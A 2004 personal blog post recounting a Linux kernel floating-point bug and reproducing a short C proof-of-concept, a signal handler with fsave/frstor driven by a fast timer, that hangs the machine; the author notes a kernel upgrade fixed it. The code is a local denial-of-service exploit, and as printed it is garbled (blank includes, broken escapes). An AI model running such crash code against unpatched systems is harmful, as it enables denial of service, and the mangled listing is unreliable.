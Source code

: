 ```yaml
---
date: 2004-06-29 20:56:12
title: less than 30 lines of code that crashed linux
tags: Linux Unix QNX
---
```

yea yea, we all know about that stupid linux kernel bug that would allow a
program to crash the operating system.

it affected the floating point unit or something...  
as soon as I read about it, I tried it on my machine the night I got home,
and... it does hang my computer quite well

```c
#include 
#include 
#include 
 
static void Handler(int ignore)
{
    char fpubuf[108];
    __asm__ __volatile__ ("fsave %0n" : : "m"(fpubuf));
    write(2, "*", 1);
    __asm__ __volatile__ ("frstor %0n" : : "m"(fpubuf));
}
 
int main(int argc, char *argv[])
{
    struct itimerval spec;
    signal(SIGALRM, Handler);
    spec.it_interval.tv_sec=0;
    spec.it_interval.tv_usec=100;
    spec.it_value.tv_sec=0;
    spec.it_value.tv_usec=100;
    setitimer(ITIMER_REAL, &spec;, NULL);
    while(1)
        write(1, ".", 1);
    
    return 0;
}
```

last weekend I finally took the time to update my kernel to 2.6.7...  
after applying all the patches I wanted myself, I sort of have a working kernel
but no bootsplash :(

no cool load screen, but it did get rid of the above kernel bug...  
I'll just wait for new -love to come out I guess.
